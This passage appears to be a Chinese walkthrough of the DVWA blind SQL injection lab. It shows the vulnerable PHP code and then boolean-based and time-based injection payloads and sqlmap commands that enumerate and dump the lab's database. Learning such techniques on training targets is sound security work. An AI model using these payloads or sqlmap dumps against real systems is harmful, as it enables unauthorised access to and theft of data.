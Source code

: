 ```php
        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
可以看到参数id没有任何过滤。

并且当输入的id值存在与不存在，会回显不一样的前端代码，那么我们可以尝试基于布尔的盲注，通过输入注入语句使得结果为True或False时，会产生不一样的回显。

当然也可以利用基于时间的盲注。


#### 解题思路
1、基于布尔的盲注
判断注入点

```
1'		//返回错误
1 and 1=1 	//返回正常
1' and '1'='1	//返回正常
```
说明该注入为字符注入。
可以用以下语句进行布尔盲注，其中N为数值，如115：
```
1' and ascii(substr(database(), 0, 1))>N #
1' and ascii(substr(database(), 0, 1))<N #
1' and ascii(substr(database(), 0, 1))=N #
```
利用上面语句，通过二分法调整N的数值以及>、<、=，就可以判断当前数据库名的第一个字符是什么；接着修改0为1，同样的步骤可以得到第二个字符，以此类推；获取表名、列名同理。

但是手工逐个字符找太麻烦了，用sqlmap可以自动化完成这些步骤，具体如下。
首先将请求包用burpsuite拦截，在id=1后加\*号，保存在request.txt文件里，然后命令行输入：
```
sqlmap -r request.txt --dbms="MySQL" --batch --current-db 	//查找当前数据库名，返回dvwa
sqlmap -r request.txt --dbms="MySQL" --batch -D dvwa --tables	//查找表名，返回guestbook,users
sqlmap -r request.txt --dbms="MySQL" --batch -D dvwa -T guestbook --columns		//查找列名，返回comment,comment_id,name
sqlmap -r request.txt --dbms="MySQL" --batch -D dvwa -T guestbook -C "comment,name" --dump		//查看具体数据，返回数据
```
另外可以加参数强制指定使用布尔盲注方式：--technique B
同时加线程参数来提高速度，最高10线程：--thread 10

2、基于时间的盲注
可以利用如下语句，原理如布尔盲注，当if语句正确时，则会sleep(3)延时3秒再返回页面，否则直接返回页面。

利用返回页面的时间判断注入语句是否正常。
```
1' and if(ascii(substr(database(),1,1))=115, sleep(3), 1) #
```
同样繁复的步骤可以用sqlmap来完成，有强制指定使用时间盲注的方式：--technique T
